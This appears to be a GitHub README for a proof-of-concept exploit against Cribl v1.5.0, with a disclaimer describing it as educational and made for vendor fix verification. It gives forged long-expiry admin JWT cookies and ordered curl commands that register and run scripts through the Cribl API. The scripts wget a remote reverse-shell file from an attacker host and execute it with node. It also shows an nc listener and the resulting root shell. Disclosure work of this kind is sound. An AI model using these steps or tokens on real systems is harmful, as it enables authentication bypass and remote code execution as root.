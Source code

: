 # Disclaimer  
This is for informational/educational purposes only.  
This was put together to demonstrate an insecurity in the tool, in order for a fix to be verified by the vendor.
# Info
Tested on Cribl v1.5.0 - Previous versions not tested but likely vulnerable.  
A valid JWT token can be transfered from and injected into the session of another Cribl instance, giving the user unauthorised access.  
Furtermore, the encryption key used on to generate the JWT/Session can be used to create a valid session for any username, with an extended expiry.  
  
This, combined with the ability to run scripts within Cribl allows a  remote attacker to run malicious code on a Crible instance in order to gain further control.  
An example of such can be seen below, using the scripts  page and a long expiry JWT token, it was possible to create a reverse shell.  
  
Tested using Docker (Alpine).


# Running
First, modify (the remote host name) and upload your shell.js to your webserver. The file contains NodeJS code to create a reverse shell to your website.  
The server must have outbound network access to your remote host/port.  
  
Secondly, setup a listener on your remote host, on the port matching the shell.js:
```
nc -lvp 6669
``` 

Adjust the following curl commands with your remote file.  
Run the CURL commands in order, the outputs should roughly match the indents below.

```
curl 'http://CRIBL_URL:9000/api/v1/system/scripts' \
-H 'Content-Type: application/json' \
-H 'Cookie: cribl_auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjo5OTk5OTk5OTk5fQ.lnXNKawtPIvfUR8D6RzrU5U1-_AHuPP1StShu4XiIFY' \
--data-binary '{"id":"runme","command":"/usr/bin/wget","args":["http://yourURL/cribl.js","-P","/opt"],"env":{}}' --compressed
```

> "count":1,"items":[{"command":"/usr/bin/wget","args":["http://yourURL/cribl.js","-P","/opt"],"env":{},"id":"runme"}]}

```
curl 'http://CRIBL_URL:9000/api/v1/system/scripts/runme/run' \
-H 'Content-Type: application/json' \
-H 'Cookie: cribl_auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNTU0OTUyMTU5fQ.W4YDcUJhshv2R25UcumlP4H-2vaCIiJL0hME4eZFIW0' \
--data-binary '{}' --compressed
```
> {"pid":414,"stdout":"N/A","stderr":"N/A"}


```
curl 'http://CRIBL_URL:9000/api/v1/system/scripts' \
 -H 'Content-Type: application/json'\
 -H 'Cookie: cribl_auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjo5OTk5OTk5OTk5fQ.lnXNKawtPIvfUR8D6RzrU5U1-_AHuPP1StShu4XiIFY' \
--data-binary '{"id":"reverseit","command":"node","args":["/opt/cribl.js"],"env":{}}' --compressed
```
> "count":1,"items":[{"command":"node","args":["/opt/cribl.js"],"env":{},"id":"reverseit"}]}


```
curl 'http://CRIBL_URL:9000/api/v1/system/scripts/reverseit/run' \
-H 'Cookie: cribl_auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjo5OTk5OTk5OTk5fQ.lnXNKawtPIvfUR8D6RzrU5U1-_AHuPP1StShu4XiIFY' \
--data-binary '{}' --compressed
```
> {"pid":353,"stdout":"N/A","stderr":"N/A"}

# Output
```nc -lvp 6669  
Listening on [0.0.0.0] (family 0, port 6669)  
Connection from [188.29.XXX.XXX] port 6669 [tcp/*] accepted (family 2, sport 13720)  
> whoami  
< root  
  
> ls /  
< bin  
< dev  
< etc  
< home  
< lib  
...
```